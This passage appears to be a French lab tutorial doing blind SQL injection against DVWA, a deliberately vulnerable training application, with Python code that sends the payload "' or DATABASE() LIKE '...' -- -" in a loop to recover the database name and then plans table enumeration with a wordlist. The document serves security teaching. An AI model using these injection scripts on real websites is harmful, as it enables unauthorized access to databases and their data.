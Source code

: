     [FOUND] =  a
    [FOUND] =  d
    [FOUND] =  v
    [FOUND] =  w
    Caractères qui composent le nom de la BD :  advw


#### 2.2 Cherchons les permutations de ces lettres

```python
from itertools import permutations

chaine = "".join(str(i) for i in letters_in_db_name)
# Fonction pour trouver les permutations d'une chaîne de caractères
def trouver_permutations(chaine):
    resultat = permutations(chaine)
    permutations_liste = [''.join(perm) for perm in resultat]
    return permutations_liste

permutations_chaine = trouver_permutations(chaine)
print(permutations_chaine)
```

    ['advw', 'adwv', 'avdw', 'avwd', 'awdv', 'awvd', 'davw', 'dawv', 'dvaw', 'dvwa', 'dwav', 'dwva', 'vadw', 'vawd', 'vdaw', 'vdwa', 'vwad', 'vwda', 'wadv', 'wavd', 'wdav', 'wdva', 'wvad', 'wvda']


#### 2.3 Trouvons le vrai nom de la BD

```python
db_name = ""
id_param = "' or DATABASE() LIKE  '"

for elem in permutations_chaine:
    params = {
        'id': id_param+elem+"' -- -",
        'Submit': 'Submit', 
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        db_name = elem
        break #on arrête la boucle dès qu'on trouve le nom

print("Le nom de la BD interrogée est : "+db_name)
```

    Le nom de la BD interrogée est : dvwa


### 3. Tables de la BD DVWA

Pour trouver les tables de la BD **'dvwa'**, nous allons utiliser une wordlist des noms de tables les plus communs.
La wordlist a été téléchargée depuis  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-outputs.txt
